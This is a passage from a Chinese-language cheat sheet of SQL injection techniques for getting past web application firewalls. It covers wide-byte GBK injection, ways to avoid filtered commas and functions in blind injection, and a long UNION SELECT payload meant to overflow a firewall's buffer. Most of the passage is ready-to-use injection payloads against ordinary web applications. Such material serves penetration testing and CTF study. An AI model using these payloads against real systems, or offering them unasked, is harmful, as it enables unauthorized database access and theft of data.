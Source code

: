2）宽字节，常用在web应用使用的字符集为GBK时，并且过滤了引号，就可以试试宽字节。%27表示 '(单引号)，单引号会被转义成\'

eg：%E6' union select 1,2 #

%df%27 union select  1,2,3  #

### **11.****过滤逗号绕过**

1）如果waf过滤了逗号，并且只能盲注，在取子串的几个函数中，有一个替代逗号的方法就是使用from pos for len，其中pos代表从pos个开始读取len长度的子串<br/> eg：常规写法 select substr("string",1,3)

若过滤了逗号，可以使用from pos for len来取代 select substr("string" from 1 for 3)

sql盲注中 select ascii(substr(database() from 1 for 1)) &gt; 110

2）也可使用join关键字来绕过

eg：select * from users union select * from (select 1)a join (select 2)b join(select 3)c

上式等价于 union select 1,2,3

3）使用like关键字，适用于substr()等提取子串的函数中的逗号

eg：select user() like "t%"

上式等价于 select ascii(substr(user(),1,1))=114

5）使用offset关键字，适用于limit中的逗号被过滤的情况，limit 2,1等价于limit 1 offset 2

eg：select * from users limit 1 offset 2

上式等价于 select * from users limit 2,1

### **12.****过滤函数绕过**

1）sleep() --&gt;benchmark()

MySQL有一个内置的BENCHMARK()函数，可以测试某些特定操作的执行速度。 参数可以是需要执行的次数和表达式。第一个参数是执行次数，第二个执行的表达式

eg：select 1,2 and benchmark(1000000000,1)

2）ascii()–&gt;hex()、bin()，替代之后再使用对应的进制转string即可

3）group_concat()–&gt;concat_ws()，第一个参数为分隔符 

eg：mysql&gt; select concat_ws(",","str1","str2")

4）substr(),substring(),mid()可以相互取代, 取子串的函数还有left(),right()

5）user() --&gt; @@user、datadir–&gt;@@datadir

6）ord()–&gt;ascii():这两个函数在处理英文时效果一样，但是处理中文等时不一致

### **13.****缓冲区溢出**

缓冲区溢出用于对付WAF，有不少WAF是C语言写的，而C语言自身没有缓冲区保护机制，因此如果WAF在处理测试向量时超出了其缓冲区长度，就会引发bug从而实现绕过

eg：?id=1 and (select 1)=(Select 0xA*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26

示例0xA*1000指0xA后面”A”重复1000次，一般来说对应用软件构成缓冲区溢出都需要较大的测试长度，这里1000只做参考，在某些情况下可能不需要这么长也能溢出
